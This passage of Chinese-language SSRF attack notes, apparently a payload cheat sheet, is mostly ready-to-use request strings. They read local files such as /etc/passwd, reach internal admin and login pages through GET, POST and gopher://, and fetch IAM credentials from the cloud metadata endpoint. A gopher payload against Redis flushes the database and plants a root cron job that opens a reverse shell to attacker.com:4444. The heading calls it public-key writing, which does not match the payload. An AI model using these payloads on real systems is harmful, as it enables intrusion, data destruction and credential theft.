 3. 读文件
    
    常用协议：`file://`
    
    ```java
    http://vuln-site.com/load?url=file:///etc/passwd
    ```
    

### 内网攻击

1. web应用
    
    常见的都是get直接get传参就行
    
    ```java
    /fetch?url=http://127.0.0.1:8080/admin
    ```
    
    有些情况下也能post
    
    ```java
    POST /fetch HTTP/1.1
    Host: victim.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60
    
    url=http://127.0.0.1:8080/login&method=POST&body=user=aaa&pass=bbb
    
    或者使用gopher
    GET /fetch?url=gopher://127.0.0.1:8080/_POST%20/login%20HTTP/1.1%0D%0AHost:127.0.0.1%3A8080%0D%0AContent-Type:application/x-www-form-urlencoded%0D%0AContent-Length:17%0D%0A%0D%0Auser=aaa&pass=bbb HTTP/1.1
    Host: victim.com
    
    ```
    
2. 数据库和缓存服务
    
    **常用协议**：**`gopher://`**, **`dict://`**, **`http://`** 
    
    常用的如Redis写公钥
    
    ```java
    http://vuln-site.com/load?url=gopher://192.168.1.10:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0a%0a%0a/1%20*%20*%20*%20*%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/attacker.com/4444%200%3E%261%22%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
    ```
    
3. 访问云服务器元数据
    
    常用协议：`http://`
    AWVS:
    
    ```java
    http://vuln-site.com/load?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
    ```
    